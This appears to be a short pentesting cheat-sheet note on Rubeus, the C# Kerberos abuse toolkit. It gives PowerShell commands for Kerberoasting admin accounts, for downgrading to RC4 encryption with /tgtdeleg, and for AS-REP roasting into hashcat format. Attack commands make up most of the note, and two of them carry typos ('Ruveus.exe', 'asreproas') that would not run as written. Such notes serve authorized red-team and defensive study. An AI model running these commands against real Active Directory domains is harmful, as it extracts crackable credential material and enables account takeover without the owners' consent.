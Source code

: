 -- -
C# toolkit for interacting with and abusing Kerberos. You can find the repo [here](https://github.com/GhostPack/Rubeus)
#### Simple Kerberoast
```powershell
# Will get the TGS for admin accounts
# no wrap just makes it easier to copy+paste as it won't require we
# trim the result for whitespace and newlines. 
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap

# /tgtdeleg: Try to force weaker RC4 encryption
# only works on Windows Server 2016 and lower
# Windows server 2019 enforces highest excryption level by default.
.\Ruveus.exe kerberoast /tgtdeleg /user:testspn /nowrap
```

^93887f

#### ASREPRoasting
[[ASREPRoasting]]
```powershell
# get AS-REP in crackable format for account w/ kerberoas preauth turned off
.\Rubeus.exe asreproas /user:<user> /nowrap /format:<passwd cracker name>
.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
```

^454f39
